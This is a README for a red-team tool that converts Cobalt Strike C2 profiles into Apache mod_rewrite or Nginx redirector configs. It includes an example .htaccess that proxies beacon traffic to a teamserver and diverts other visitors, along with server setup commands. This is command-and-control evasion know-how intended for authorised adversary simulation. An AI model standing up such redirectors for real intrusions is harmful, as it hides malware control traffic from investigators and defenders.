 # Automatically Generate Rulesets for Apache mod_rewrite or Nginx for Intelligent HTTP C2 Redirection
![Python application](https://github.com/threatexpress/cs2modrewrite/workflows/Python%20application/badge.svg)
This project converts a Cobalt Strike profile to a functional mod_rewrite `.htaccess` or Nginx config file to support HTTP reverse proxy redirection to a Cobalt Strike teamserver. The use of reverse proxies provides protection to backend C2 servers from profiling, investigation, and general internet background radiation.

***Note***: You should test and tune the output as needed before deploying, but these scripts should handle the heavy lifting.

## Features

- Now requires Python 3.0+ (this is 2020 after all)
- Supports the Cobalt Strike custom URI features as of CS 4.0
- Rewrite Rules based on valid C2 URIs (HTTP GET, POST, and Stager) and specified User-Agent string.
  - Result: Only requests to valid C2 endpoints with a specified UA string will be proxied to the Team Server by default.
- Uses a custom Malleable C2 profile to build a .htaccess file with corresponding mod_rewrite rules
- Uses a custom Malleable C2 profile to build a Nginx config with corresponding proxy_pass rules
- HTTP or HTTPS proxying to the Cobalt Strike Team Server
- HTTP 302 Redirection to a Legitimate Site for Non-Matching Requests

## Quick start

The havex.profile example is included for a quick test.

1) Run the script against a profile
2) Save the output to `.htaccess` or `/etc/nginx/nginx.conf` on your redirector
3) Modify as needed
4) Reload\restart the web server

## Apache mod_rewrite Example Usage

```
python3 cs2modrewrite.py -i havex.profile -c https://TEAMSERVER -r https://GOHERE > /var/www/html/.htaccess
#### Save the following as .htaccess in the root web directory (i.e. /var/www/html/.htaccess)

########################################
## .htaccess START 
RewriteEngine On
## Uncomment to enable verbose debugging in /var/logs/apache2/error.log
# LogLevel alert rewrite:trace5
## (Optional)
## Scripted Web Delivery 
## Uncomment and adjust as needed
#RewriteCond %{REQUEST_URI} ^/css/style1.css?$
#RewriteCond %{HTTP_USER_AGENT} ^$
#RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## Default Beacon Staging Support (/1234)
RewriteCond %{REQUEST_URI} ^/..../?$
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
RewriteRule ^.*$ "http://TEAMSERVER%{REQUEST_URI}" [P,L]

## C2 Traffic (HTTP-GET, HTTP-POST, HTTP-STAGER URIs)
## Logic: If a requested URI AND the User-Agent matches, proxy the connection to the Teamserver
## Consider adding other HTTP checks to fine tune the check.  (HTTP Cookie, HTTP Referer, HTTP Query String, etc)
## Refer to http://httpd.apache.org/docs/current/mod/mod_rewrite.html
## Profile URIs
RewriteCond %{REQUEST_URI} ^(/include/template/isx.php.*|/wp06/wp-includes/po.php.*|/wp08/wp-includes/dtcla.php.*|/modules/mod_search.php.*|/blog/wp-includes/pomo/src.php.*|/includes/phpmailer/class.pop3.php.*|/api/516280565958.*|/api/516280565959.*)$
## Profile UserAgent
RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows; U; MSIE 7.0; Windows NT 5.2\) Java/1.5.0_08"
RewriteRule ^.*$ "https://TEAMSERVER%{REQUEST_URI}" [P,L]

## Redirect all other traffic here (Optional)
RewriteRule ^.*$ HTTPS://GOHERE/ [L,R=302]

## .htaccess END
########################################
```
## Apache Rewrite Setup and Tips

### Enable Rewrite and Proxy
    apt-get install apache2
    a2enmod rewrite headers proxy proxy_http ssl cache
    a2dismod -f deflate
    service apache2 reload

**Note:** https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/
"e0x70i pointed out in the comments below that if your Cobalt Strike Malleable C2 profile contains an Accept-Encoding header for gzip, your Apache install may compress that traffic by default and cause your Beacon to be unresponsive or function incorrectly. To overcome this, disable mod_deflate (via a2dismod deflate and add the No Encode ([NE]) flag to your rewrite rules. (Thank you, e0x70i!)"

### Enable SSL support

Ensure the following entries are in the site's config (i.e. `/etc/apache2/available-sites/*.conf`)

    # Enable SSL
    SSLEngine On
    # Enable SSL Proxy
    SSLProxyEngine On
    # Trust Self-Signed Certificates generated by CobaltStrike
    SSLProxyVerify none
    SSLProxyCheckPeerCN off
    SSLProxyCheckPeerName off
    SSLProxyCheckPeerExpire off
### .HTACCESS

If you plan on using mod_rewrite in .htaccess files (instead of the site's config file), you also need to enable the use of `.htaccess` files by changing `AllowOverride None` to `AllowOverride All`. For all websites, edit `/etc/apache2/apache.conf`

    <Directory /var/www/>
        Options FollowSymLinks MultiViews
        AllowOverride All
        Order allow,deny
        allow from all
    </Directory>

Finally, restart apache once more for good measure.

`service apache2 restart`

### Troubleshooting

If you need to troubleshoot redirection rule behavior, enable detailed error tracing in your site's configuration file by adding the following line.

`LogLevel alert rewrite:trace5`

Next, reload apache, and monitor `/var/log/access.log` `/var/log/error.log` to see which rules are matching.

----------------------------------------------

## Nginx Example Usage

### Install Nginx

    apt-get install nginx nginx-extras

**Note:** `nginx-extras` is needed for custom server headers. If you can't get this package, then comment out the server header line in the resulting configuration file.

### Create Redirection Rules

Save the cs2nginx.py output to `/etc/nginx/nginx.conf` and modify as needed (SSL parameters).

`python3 ./cs2nginx.py -i havex.profile -c https://127.0.0.1 -r https://www.google.com -H mydomain.local >/etc/nginx/nginx.conf`

Finally, restart nginx after modifying the server configuration file.

`service nginx restart`

## Final Thoughts

Once redirection is configured and functioning, ensure your C2 servers only allow ingress from the redirector and your trusted IPs (VPN, office ranges, etc).

Consider adding additional redirector protections using GeoIP restrictions (mod_maxmind) and blacklists of bad user agents and IP ranges. Thanks to [@curi0usJack](https://twitter.com/curi0usJack) for the ideas.

## References

- [Joe Vest and Andrew Chiles - cs2modrewrite.py blog post](https://posts.specterops.io/automating-apache-mod-rewrite-and-cobalt-strike-malleable-c2-profiles-d45266ca642)

- [@bluescreenofjeff - Cobalt Strike HTTP C2 Redirectors with Apache mod_rewrite](https://bluescreenofjeff.com/2016-06-28-cobalt-strike-http-c2-redirectors-with-apache-mod_rewrite/)

- [Adam Brown - Resilient Red Team HTTPS Redirection Using Nginx](https://coffeegist.com/security/resilient-red-team-https-redirection-using-nginx/)

- [Apache - Apache mod_rewrite Documentation](http://httpd.apache.org/docs/current/mod/mod_rewrite.html)
